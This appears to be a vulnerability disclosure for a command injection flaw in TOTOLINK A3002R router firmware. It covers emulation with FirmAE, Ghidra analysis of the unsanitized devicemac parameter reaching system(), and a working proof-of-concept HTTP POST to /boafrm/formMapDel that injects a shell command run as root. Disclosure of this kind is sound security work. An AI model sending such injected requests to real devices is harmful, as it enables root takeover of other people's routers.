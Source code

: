 ## Description

A remote code execution vulnerability was discovered in the TOTOLINK A3002R firmware version V4.0.0-B20230531.1404. The vulnerability exists in the `FUN_00459fdc` function, which improperly sanitizes user input before passing it to a `system()` call. This allows an attacker to inject arbitrary commands that will be executed with root privileges on the device.

## Affected Product

- ​**Brand**: TOTOLINK
- ​**Product**: A3002R
- ​**Version**: V4.0.0-B20230531.1404

The firmware can be downloaded from this [website]([https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html)) and using FirmAE to simulate the router environment.   The command is

```shell
sudo ./run.sh -d TOTOLINK ../FIRMWARE/TOTOLINK_A3002R_Ge_V4_0_0_B20230531_1404.web
```

The default username is 'admin', password is 'admin'.
The result of the simulation is as follows: 

![[work_record/TOTOLINK/1/img/sim_res.png]]
## Vulnerability Analysis

The vulnerable code constructs a command string using unsanitized user input (`devicemac%d` parameter) and passes it directly to the `system()` function. Using ghidra we can find the code below in function `FUN_00459fdc`:

![[work_record/TOTOLINK/2/img/code_1.png]]

sink point:
![[sink.png]]

The lack of input validation allows command injection through the `devicemac%d` parameter. An attacker can break out of the intended command structure and execute arbitrary commands by including shell metacharacters.

Furthermore, through analysis of the function `FUN_0040f2b4` using Ghidra, we determined that the function's purpose is to obtain the value of the parameter with the specified name in the POST.

The details of the function as follows:

* **Address**: 00459fdc
* **Function**: FUN_00459fdc
* **Parameter**: devicemac%d

## Proof of Concept (PoC)

Through ghidra we can find that this function is triggered by action 'formMapDel', so we use burpsuite to capture a normal POST packet to obtain the sessionCheck parameter for authentication and modify the packet.
Here we set the parameter `deviceNum`=2 and `enabled1`=ON to ensure the vulnerable code being excuted.
The following HTTP request demonstrates command injection that creates a file in the root directory:

```http
POST /boafrm/formMapDel HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/wlsecurity.htm?t=1744618117722

sessionCheck=a6bdaa17dd6b63a74eb809d6fa1fc2f1&deviceNum=2&enabled1=ON&devicemac1=;echo "poc">/poc.txt
```

The result of the POC is as follows. You can execute any command you want, here we create a poc.txt file with the content "poc" in the root directory.

![[burp.png]]

In the FirmAE terminal, we check whether the command is executed successfully. We can see that the command is executed successfully and the poc is written into the poc.txt file.

![[res.png]]
